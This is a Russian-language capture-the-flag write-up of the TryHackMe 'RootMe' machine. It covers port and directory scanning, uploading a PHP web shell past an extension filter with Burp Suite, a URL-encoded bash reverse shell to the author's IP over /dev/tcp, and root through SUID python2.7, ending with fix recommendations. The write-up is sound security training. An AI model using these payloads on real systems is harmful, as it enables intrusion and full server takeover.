# TryHackMe: RootMe


*Дата: 22.10.2026*


### Сложность: Easy

**Мой IP: 192.168.166.222**

**IP Цели: 10.114.148.4**


Сегодня у меня очередная машинка на TryHackMe - **RootMe** 

**Инструменты: list*

---

После запуска машинки и подключения к OpenVPN, первым делом я решил отсканировать все порты с помощью nmap:

```bash
sudo nmap -sV -T4 10.114.148.4 -p-
```



`T4` я использовал чтобы сканирование всех 65535 портов не заняло много времени

`Nmap` выдал мне два порта, 22-ой `(OpenSSH 8.2p1)` на котором был запущен `SSH`, и 80 `(Apache httpd 2.4.41)` на котором был сайт. Я решил начать с сайта

Зайдя на сайт `https://10.114.148.4` меня встретила лишь одна простая надпись: `Can you root me?`

Я решил сразу посмотреть код страницы `Ctrl+U` но в итоге не нашёл там ничего полезного. 

Я решил попробовать использовать `GoBuster` для поиска скрытых папок, и как мы помним сервер на Apache, поэтому я решил ещё и искать другие популярные расширения для серверов Apache, а именно: `php`, `html` и `txt` а в качестве словаря взять текстовый файл `common.txt`

```bash
gobuster dir -u http://10.114.148.4 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt
```



Результат на самом деле довольно хороший, в первую очередь я думаю будет отличной идеей проверить `http://10.114.148.4/uploads`, но даже в коде страницы ничего интересного я не нашёл, теперь решил попробовать посмотреть что в `http://10.114.148.4/panel` и тут можно upload-ить файлы, поэтому первое что я решил загружать туда, это файл shell.php в котором содержался такой код:

```bash
<?php system($_GET['cmd']); ?>
```

Нужен он для того, чтобы создать на сервере **web-shell** и потом получить **reverse-shell** с помощью него, но как наверное было очевидно, файлы формата PHP загружать нельзя



Однако попробовав загрузить файл формата `.png` у меня получилось



Поэтому я решил использовать утилиту `**Burp Suite**`



---

Для начала я перешёл из `Dashboard` в `Proxy -> intercept`, потом поменял `intercept off` на `intercept on` и после этого, настроив *FireFox* чтобы `Burpsuite` мог перехватывать запросы, я начал свою 'операцию'



В строке
`Content-Type: application/x-php`

Я поменял с `Content-Type: application/x-php` на `Content-Type: image/png` **Обратим внимание на конец, я поменял с `applicatiton/x-php` на `image/png` что сделает файл визуально для сайта формата `png`, но на самом деле он будет `php`, а так же я поменял с `Content-Disposition: form-data; name="fileUpload"; filename="shell.php"` на `Content-Disposition: form-data; name="fileUpload"; filename="shell.phtml"` и тут тоже обратите внимание на конец, я поменял `filename=` с `shell.php` на `shell.phtml`**

Почему я поменял `filename` с `.php` на `.phtml`? Потому что сайт ищет файлы формата `.php`, а мы меняем формат с `.php` на `phtml`

Это важно, потому что если поменять файл на какое-либо другое расширение, то он просто не выполнит команду, которую он содержит



---


Теперь у нас получилось загрузить файл с `web-shell` на сайт прямо в папку `uploads`, что на самом деле отличный результат! (файл phpml это моя ошибка в правописании, не обращайте внимание)

После, в `URL` запрос мы вводим 

```bash
http://10.114.148.4/uploads/shell.phtml?cmd=whoami
```


И да, всё работает. Теперь пришло время получать **reverse-shell**

Сначала откроем 4444-ый порт на другом терминале kali:



И в `URL` запрос вводим: `http://10.114.148.4/uploads/shell.phtml?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.166.222%2F4444%200%3E%261%27` Где:
`%20 -   (пробел)
%27	- ' (одинарная кавычка)
%3E	- > (больше)
%26	- & (амперсайд)
%2F	- / (слеш)

---

И вот мы в системе, сделаем базовую разведку:

`whoami
pwd
sudo -l
`



На самом деле мы узнали довольно много полезного, мы `www-data` так что давайте сначала найдём флаг `user.txt`:

```bash
cd .. #Выходим из папки /uploads
cd .. #Выходим из папки /html
ls -la #
cat user.txt
```

И вот у нас есть первый флаг, теперь давайте повышать привилегии. Давайте сначала посмотрим все `SUID` файлы с помощь команды `find`:

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

Вывод которого я вам сейчас покажу:



На первый взгляд ничего подозрительно, пока не замечаешь `/usr/bin/python2.7`

Что это означает? Что мы можем выполнять любые, абсолютно любые скрипты `python` от прав `root`, чем мы сейчас и воспользуемся, использую команду:

```bash
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash -p")'
```

Где:
`-c - говорит python выполнить код, которая в кавычках 
import os - подключает библиотеку для работы с операционной системой
os.setuid(0) - команда, которая меняет айди пользователя на 0 (а у root айди - 0)
os.system("/bin/bash -p") - запускает командную оболочку с флагом -p, который сохраняет привилегии
`



И с помощью этой команды, мы получим `root`

Теперь давайте найдём финальный флаг, который находится в /root

```bash
cd /root
ls -la
cat /root/root.txt
```



Вот мы и прошли машинку `rootme`

### Рекомендации по устранению уязвимостей:
1. **Улучшить защиту по upload-у файлов**
2. **Забрать SUID у python с помощью chmod, чтобы пользователи не могли выполнять python скрипты от имени root**
